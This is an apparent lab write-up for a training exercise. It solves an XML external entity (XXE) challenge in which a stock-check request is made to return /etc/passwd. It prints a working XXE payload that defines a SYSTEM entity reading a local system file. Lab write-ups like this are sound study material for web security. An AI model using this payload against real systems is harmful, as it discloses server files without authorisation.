



## Objective 

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file. 

## Solution 

In the `check stock` functionality showcases that the request goes through `POST` method and takes an XML body as input like `storeId` and `productId` and shows how many stocks left in the particular region 



Now we know that it has te ability the parse the XML body and with the following payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;1</productId><storeId>1</storeId></stockCheck>
```

where it will define the external entity `&xxe`within the `productId` and points to the contents of `/etc/passwd` as a value and now we can send the request and which will actually disclose the contents of `/etc/passwd`



Achieved the objective and that solves the lab 

